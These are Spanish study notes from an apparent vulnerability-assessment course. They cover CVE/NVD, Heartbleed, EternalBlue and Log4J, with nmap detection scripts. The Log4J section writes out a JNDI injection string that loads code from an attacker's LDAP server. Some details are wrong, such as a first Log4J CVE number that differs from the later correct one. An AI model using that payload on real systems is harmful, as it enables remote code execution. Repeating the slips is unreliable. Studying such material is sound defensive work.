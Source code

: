 # Assessment Methodologies: Vulnerability Assessment
# Indice

- [Introduccion](#introduccion)

---
---

# Introduccion

En este modulo haremos una pequeña introduccion a algunas vulnerabilidades, entre ellas veremos algunos casos de estudio como:
- Heartbleed
- EternalBlue
- Log4J

Y practicaremos en laboratorios algunas aplicaciones:
- Nessus
- ExploitDB

# Vulnerabilities
## ¿Que es una vulnerabilidad?

Una vulnerabildad es una deficiendia en la logica de la computacion que se puede encontrar en software y en el harware, y que cuando esta se explota puede causar un impacto negativo en la confidencialidad, integridad y disponibilidad.

Pueden ser vulnerabilidades fisicas como controles de acceso, sistemas de energia de emergencia... Recordar que la ciberseguridad no solo engloba las intrusiones que se pueden hacer via software o por red, sino que tambien puede ser que alguien entre fisicamente y robe unos HD o inserte un malware via un usb.

Las vulnerabilidades de una maquina pueden ser debidas a algun software instalado en la maquina o al propio sistema operativo.

## CVE Program

Es una institucion que se encarga de registrar las vulnerabilidades que se van descubriendo. [WEB](https://cve.mitre.org/cve/)

Los CVE tienen un identificador unico que identifica a las vulterabilidades.

Ejemplo: `CVE-2021-4428` --> es el identificador para la vulnerabilidad del log4J

- En las paginas de detalle de cada vulnerabilidad podremos encontrar:
    - Descripcion.
    - Severidad.
    - Referencias.
    - Listado de debilidades.
    - Configuraciones de software afectadas conocidas.

- Para encontrar vulnerabilidades hay una serie de cosas que podemos hacer:
    - Scanning
    - Asset Identification + Research
    - Fuzz Testing

## NVD National Vulnerability Database

Es otro registro muy parecido al CVE.

## Zero Days Attacks

Son vulnerabilidades que nadie ha reportado, por lo que si encontraramos alguna es recomndable reportarla para ayudar a la comunidad.

## Capa 8, la gente

Las habilidades para conseguir informacion de las personas o que hagan cosas que nos interesas tambien se considera una vulnerabilidad a explotar, como por ejemplo la ingenieria social.

---
---
# Casos de malwares conocidos
## Heartbleed 

- *cve-2014-0160*

- [Extra info](https://heartbleed.com/)

Afecta a la librería OpenSSL, permite robar la informacion protegida permitiendo leer la memoria de sistemas con versiones vulnerables de este software enviando un **"crafted packet"**.

Las siguientes versiones de OpenSSL estan afectadas:

- OpenSSL 1.0.1 through 1.0.1f
- OpenSSL 1.0.2-beta through 1.0.2-beta1

Basicamente lo que se hace es crear un paquete como el de la imagen, donde se pregunta **"Hey, la contraseña es HotPan123!@#  ?"** al servidor, pero ademas en el paquete se le dice que la password tiene longitud, y esta es la vulnerabilidad. 

En este punto el servidor comprobará en su memoria la variable de la contraseña y si es correct la devolverá, pero toda la longitud que sobrepase la longitud de la contraseña la cogerá de la siguiente informacion que haya haciendo un overflow y dandonos informacion de mas.

![heartbleed](img/heartbleed-1.png)

![heartbleed](img/heartbleed-2.png)

### Como ver si un servidor es vulnerable a HeartBleed

Se puede usar el siguiente script de nmap para ver la version del SSL:
- `ssl-enum-ciphers`

Tambien hay disponible un script de Nmap que nos dice directamente si un servidor es vulnerable o no:

- `ssl-heartbleed`

## EternalBlue
- *CVE-2017-0143*

Es una vulnerabilidad que afecto a hospitales, gobiernos, organizaciones... durante una buena parte del año 2017. Este fue creado por la NSA (National Security Agency) y se filtro por el grupo de hackers **The Shadow Brokers**, este lo utilizo **Wanacry**  el 12 de mayo de 2017 para hacer un ataque mundial de rasomware. 

Es una vulnerabilidad que afecta a SMBv1 permitiendo ejecutar codigo en un ordenador a partir de paquetes especificos aprovechandose del overflow, de esta manera se puede ejecutar cualquier cosa, incluido conseguir una revertshell.

### Como ver si un servidor es vulnerable a EternalBlue

Tenemos un script especifico de Nmap (como no):
- `smb-vuln-ms17-010`

## Log4J
- *CVE-2021-44228*

Es una librería que se usa para loguearse en Java que tiene una vulnerabilidad que a traves de un servidor LDAP se puede ejecutar codigo en la maquina victima.

Aprovecha una vulnerabilidad que permite inyectar codigo en un input de login con el siguiente formato -->`${jndi:ldap://demo.ine:1389/mycode}`, este codigo, la sentencia **jndi** hace que cargue codigo de un servidor **LDAP** que el atacante tendría alojado, en este caso ejecutaría "**mycode**".

![log4j](img/log4j-1.png)